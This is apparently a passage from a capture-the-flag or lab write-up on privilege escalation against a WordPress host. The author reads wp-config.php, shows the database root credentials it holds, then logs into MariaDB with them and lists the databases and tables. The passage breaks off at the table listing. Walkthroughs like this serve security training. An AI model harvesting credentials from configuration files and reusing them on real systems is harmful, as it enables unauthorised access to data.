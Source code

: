 ### Privilege Escalation

Because I know the site is running WordPress, I always try to get access to the wp-config file right off the bat.

Nice, we found some credentials:
```
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'sup3r_s3cr3t');

/** MySQL hostname */
define('DB_HOST', 'localhost');
```

I can then use these credentials to login to mysql:
```
</www/wordpress/assets/fonts/blog$ mysql -u root -psup3r_s3cr3t              
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 9
Server version: 10.0.38-MariaDB-0ubuntu0.16.04.1 Ubuntu 16.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| wordpress          |
+--------------------+
4 rows in set (0.00 sec)

MariaDB [(none)]> use wordpress;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [wordpress]> show tables;
+-----------------------------+
| Tables_in_wordpress         |
+-----------------------------+
| wp_commentmeta              |
| wp_comments                 |
| wp_links                    |
| wp_options                  |
| wp_postmeta                 |
| wp_posts                    |
| wp_term_relationships       |
| wp_term_taxonomy            |
| wp_termmeta                 |
| wp_terms                    |
| wp_usermeta                 |
| wp_users                    |
| wp_wc_avatars_cache         |
```